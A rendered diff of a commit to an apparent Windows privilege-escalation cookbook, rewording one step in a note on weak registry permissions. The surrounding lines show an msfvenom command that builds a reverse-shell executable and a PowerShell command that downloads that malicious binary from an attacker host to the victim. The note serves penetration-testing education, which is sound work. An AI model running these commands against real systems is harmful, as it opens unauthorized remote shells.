

Before and after one commit to nickvourd/Windows-Local-Privilege-Escalation-Cookbook, a Markdown page: Notes/WeakRegistryPermissions.md, the part around the change. GitHub-like rendering.

````diff
--- a/Notes/WeakRegistryPermissions.md
+++ b/Notes/WeakRegistryPermissions.md
@@ -119,7 +119,7 @@ msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1234 -f exe > Service
 
 2) Open a listener in your kali machine.
 
-3) Transfer and overwrite the Service2.exe file with the malicious binary:
+3) Transfer the malicious executable in victim's machine:
 
 ```
 iwr -Uri http://<ip>:<port>/Service4.exe -Outfile C:\Windows\Tasks\Service4.exe
````
Also changed, not shown: Notes/UnquotedServicePath.md (+44 -0 lines), Pictures/Unquoted-Service-Exploitation.png (added), Pictures/Unquoted-Service-Path-Reverse-Shell.png (added).
